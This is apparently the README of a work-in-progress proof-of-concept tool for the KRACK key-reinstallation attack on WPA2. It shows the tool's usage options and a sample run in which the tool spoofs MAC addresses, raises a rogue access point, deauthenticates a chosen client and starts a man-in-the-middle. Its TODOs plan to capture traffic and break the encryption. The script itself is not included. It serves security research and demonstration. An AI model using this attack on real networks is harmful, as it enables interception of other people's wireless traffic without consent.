 # [WORK IN PROGESS] PoC Krack (Key Reinstallation AttaCKs)

Proof of concept for Krack attack using channel-based MitM

## Theory

French article on [hackndo](http://beta.hackndo.com/krack/)

## Environment

WPA2 with CCMP

## Usage

```
# ./Krack.py -h
usage: Krack.py [-h] [-d] -a ACCESS_POINT -i IFACE_AP -b CLIENT -j
                IFACE_CLIENT -c CHANNEL

optional arguments:
  -h, --help            show this help message and exit
  -d, --direct          Skip channel and monitor settings
  -a ACCESS_POINT, --access_point ACCESS_POINT
                        Enter the SSID of the specific access point to target
  -i IFACE_AP, --iface_ap IFACE_AP
                        Enter the SSID of the specific access point to target
  -b CLIENT, --client CLIENT
                        Enter the MAC address of the specific client to target
  -j IFACE_CLIENT, --iface_client IFACE_CLIENT
                        Enter the SSID of the specific access point to target
  -c CHANNEL, --channel CHANNEL
                        Choose channel on which the targeted access point is
                        listening on

# ./Krack.py -a hackndo_ssid_test -i wlan1 -b "ab:cd:0a:0b:11:22" -j wlan0 -c 11
[*] Turning off both interfaces
[*] Setting interface wlan1 on channel 11
[*] Interface wlan1 is on channel 11
[*] Setting interface wlan0 on channel 4
[*] Interface wlan0 is on channel 4
[*] Starting monitor mode for wlan1
[*] Interface wlan1 is now in monitor mode
[*] Starting monitor mode for wlan0
[*] Interface wlan0 is now in monitor mode
[*] Turning on both interfaces
[*] Trying to find hackndo_ssid_test MAC address
[*] MAC Found ! 0e:cc:46:8a:b1:09
[*] Jammer initialized correctly
[*] Sniffing an AP Beacon...
[*] AP Beacon saved!
[*] Sniffing an AP Probe response...
[*] AP Probe response saved!
[*] Updating wlan1 MAC address to ab:cd:0a:0b:11:22 (Client MAC)
[*] wlan1 MAC address update successful
[*] Updating wlan0 MAC address to 0e:cc:46:8a:b1:09 (Real AP MAC)
[*] wlan0 MAC address update successful
[*] Rogue AP started. Sending beacons...
[*] Running main loop
[*] Starting deauth on AP 0e:cc:46:8a:b1:09 (hackndo_ssid_test) and client ab:cd:0a:0b:11:22...
[*] Probe request to our AP
[*] Client authenticated to our AP!
[*] MitM attack has started
[*] Deauth stopped
```

## TODO

- [X] Use CSA (Channel Switch Announcement) to make client switch channel after deauth (See issue [#1](https://github.com/Hackndo/krack-poc/issues/1))
- [ ] Save data sent by client
- [ ] Break cryptography with known plain text when counter is reinitialized
